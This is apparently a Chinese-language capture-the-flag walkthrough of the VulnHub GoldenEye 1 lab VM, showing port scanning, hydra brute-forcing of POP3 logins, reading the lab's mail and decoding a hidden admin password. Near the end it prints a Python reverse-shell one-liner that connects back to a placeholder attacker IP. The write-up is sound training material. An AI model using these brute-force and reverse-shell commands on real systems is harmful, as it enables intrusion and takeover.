








# GoldenEye 1

> https://download.vulnhub.com/goldeneye/GoldenEye-v1.ova

靶场IP：`192.168.32.217`

扫描对外端口服务

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p 1-65535 -sV  192.168.32.217                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 10:39 EDT
Nmap scan report for 192.168.32.217
Host is up (0.00094s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
25/tcp    open  smtp        Postfix smtpd
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
55006/tcp open  ssl/unknown
55007/tcp open  unknown
MAC Address: 00:0C:29:6D:1F:A3 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 167.52 seconds

```

访问80端口


按照提示访问：`/sev-home/`



查看页面源代码，找到JS文件，发现一个账号和密码：`Boris/InvincibleHack3r`

```
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```





登录成功，可以在右侧看到这段话

```
GoldenEye is a Top Secret Soviet oribtal weapons project. Since you have access you definitely hold a Top Secret clearance and qualify to be a certified GoldenEye Network Operator (GNO)

Please email a qualified GNO supervisor to receive the online GoldenEye Operators Training to become an Administrator of the GoldenEye system

Remember, since security by obscurity is very effective, we have configured our pop3 service to run on a very high non-default port
```

> GoldenEye 是一个绝密的苏联东方武器项目。由于您有权访问，因此您肯定持有绝密许可并有资格成为经过认证的 GoldenEye 网络运营商 (GNO)
>
> 请向合格的 GNO 主管发送电子邮件，以接受在线 GoldenEye 操作员培训，成为 GoldenEye 系统的管理员
>
> 请记住，由于默默无闻的安全性非常有效，我们已将 pop3 服务配置为在非常高的非默认端口上运行


接下来对POP3服务进行暴力破解，发现的`boris`账号的密码是：`secret1!`

```
┌──(root💀kali)-[~/Desktop]
└─# hydra -l boris -P /usr/share/wordlists/fasttrack.txt -t20 192.168.32.217 -s55007 -I pop3
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-09 11:16:59
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 20 tasks per 1 server, overall 20 tasks, 222 login tries (l:1/p:222), ~12 tries per task
[DATA] attacking pop3://192.168.32.217:55007/
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 122 to do in 00:02h, 20 active
[55007][pop3] host: 192.168.32.217   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-09 11:18:58

```

查看boris用户邮件信息

```
┌──(root💀kali)-[~/Desktop]
└─# nc 192.168.32.217 55007            
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.

```

```
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id D9E47454B1
        for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
```

> 鲍里斯，这是管理员。您可以在此处与同事和学生进行电子交流。我不会扫描电子邮件是否存在安全风险，因为我相信你和这里的其他管理员。

```
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id C3F2B454B1
        for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
```

> 鲍里斯，我可以破解你的密码！

```
RETR 3
+OK 921 octets
Return-Path: <alec@janus.boss>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from janus (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id 4B9F4454B1
        for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
Message-Id: <20180425025235.4B9F4454B1@ubuntu>
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.
```

> 鲍里斯，
>
> 您与我们辛迪加的合作将获得丰厚回报。附件是 GoldenEye 的最终访问代码。将它们放在此服务器根目录中的隐藏文件中，然后从该电子邮件中删除。这些访问代码只能有一组，我们需要保护它们以供最终执行。如果他们被找回并被俘虏，我们的计划将会崩溃和燃烧！
>
> 一旦 Xenia 进入培训站点并熟悉 GoldenEye 终端代码，我们将进入最后阶段......
>
> PS - 保持安全，否则我们将受到威胁。

在邮件找到`natalya`用户，对这个用户进行爆破。

```
┌──(root💀kali)-[~/Desktop]
└─# hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -t20 192.168.32.217 -s55007 -I pop3
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-09 11:29:03
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 20 tasks per 1 server, overall 20 tasks, 222 login tries (l:1/p:222), ~12 tries per task
[DATA] attacking pop3://192.168.32.217:55007/
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 122 to do in 00:02h, 20 active
[55007][pop3] host: 192.168.32.217   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-09 11:30:44

```

查看`natalya`邮件信息。

```
┌──(root💀kali)-[~/Desktop]
└─# nc 192.168.32.217 55007                                                                   
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
```

```
RETR 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id D5EDA454B1
        for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
```

> 娜塔莉亚，请你不要再破坏鲍里斯的密码了。此外，您是 GNO 培训主管。一旦学生被指定给您，我将通过电子邮件发送给您。
>
> 此外，请注意可能的网络漏洞。我们有情报表明，一个名为 Janus 的犯罪集团正在追捕 GoldenEye。

```
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.
```

> 好的，娜塔琳，我有一个新学生要给你。由于这是一个新系统，如果您发现任何配置问题，请让我或鲍里斯知道，尤其是它与安全性有关...即使不是，只需以"安全性"为幌子输入...它会毫不费力地升级变更单 :)
>
> 好的，用户信用是：
>
> 用户名：xenia
> 密码：RCP90rulez！
>
> Boris 验证了她是一个有效的承包商，所以只需创建帐户，好吗？
>
> 如果您没有外部内部域的 URL：severnaya-station.com/gnocertdir
> 请确保编辑您的主机文件，因为您通常在远程离线工作......
>
> 由于您是 Linux 用户，只需将此服务器 IP 指向 /etc/hosts 中的 severnaya-station.com。

根据邮件信息可以发现

```
domain： severnaya-station.com/gnocertdir
username: xenia
password: RCP90rulez!
```

登录进去



访问message，找到一封邮件

```
As a new Contractor to our GoldenEye training I welcome you. Once your account has been complete, more courses will appear on your dashboard. If you have any questions message me via email, not here.

My email username is...

doak

Thank you,

Cheers,

Dr. Doak "The Doctor"
Training Scientist - Sr Level Training Operating Supervisor
GoldenEye Operations Center Sector
Level 14 - NO2 - id:998623-1334
Campus 4, Building 57, Floor -8, Sector 6, cube 1,007
Phone 555-193-826
Cell 555-836-0944
Office 555-846-9811
Personal 555-826-9923
Email: doak@
Please Recycle before you print, Stay Green aka save the company money!
"There's such a thing as Good Grief. Just ask Charlie Brown" - someguy
"You miss 100% of the shots you don't shoot at" - Wayne G.
THIS IS A SECURE MESSAGE DO NOT SEND IT UNLESS.
```

> 作为我们 GoldenEye 培训的新承包商，我欢迎您。完成您的帐户后，您的仪表板上将显示更多课程。如果您有任何问题，请通过电子邮件给我发消息，而不是在这里。
>
> 我的邮箱用户名是...
>
> 多克
>
> 谢谢，
>
> 干杯，
>
> 多克博士"医生"
> 培训科学家 - 高级培训运营主管
> GoldenEye运营中心部门
> 14 级 - NO2 - id:998623-1334
> Campus 4, Building 57, Floor -8, Sector 1,007
> 电话 555-193-826
> 手机 555-836-0944
> 办公室 555-846-9811
> 个人 555-826-9923
> 邮箱：doak@
> 请在打印前回收利用，保持绿色，也就是节省公司的钱！
> "有像 Good Grief 这样的东西。问问 Charlie Brown"——someguy
> "你错过了 100% 没有投篮的投篮"——韦恩 G.
> 这是一条安全消息，除非，否则请勿发送。



爆破`doak`用户的密码：`goat`

```
┌──(root💀kali)-[~/Desktop]
└─# hydra -l doak -P /usr/share/wordlists/fasttrack.txt -t20 192.168.32.217 -s55007 -I pop3
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-09 11:44:21
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 20 tasks per 1 server, overall 20 tasks, 222 login tries (l:1/p:222), ~12 tries per task
[DATA] attacking pop3://192.168.32.217:55007/
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 122 to do in 00:02h, 20 active
[55007][pop3] host: 192.168.32.217   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-09 11:46:04

```

查看`doak`邮件信息

```
┌──(root💀kali)-[~/Desktop]
└─# nc 192.168.32.217 55007                                                                
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!

.

```

使用`dr_doak/4England!`，发现一个`s3cret.txt`文件



```
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

> 007,
>
> 我能够通过 clear txt 捕获这个应用程序 adm1n cr3ds。
>
> GoldenEye 服务器中的大多数 Web 应用程序中的文本都会被扫描，因此我无法在此处添加 cr3dentials。
>
> 多汁的东西在这里：/dir007key/for-007.jpg
>
> 您可能也知道，RCP-90 远胜于任何其他武器，而杀戮许可证是唯一的游戏方式。

访问：`/dir007key/for-007.jpg`



查看图片

```
┌──(root💀kali)-[/tmp]
└─# strings for-007.jpg                  
JFIF
Exif
eFdpbnRlcjE5OTV4IQ==
GoldenEye
linux
For James
0231
0100
ASCII
For 007
""""""""""
             !      !!!   !!!!!!!!"""""""""""""""
$3br
%4Uc
1!9a=<b#

```

base64解密

```
┌──(root💀kali)-[/tmp]
└─# echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d          
xWinter1995x!    
```

使用`admin`登录后台，修改shell引擎



```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP ADRESINIZ>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

写shell


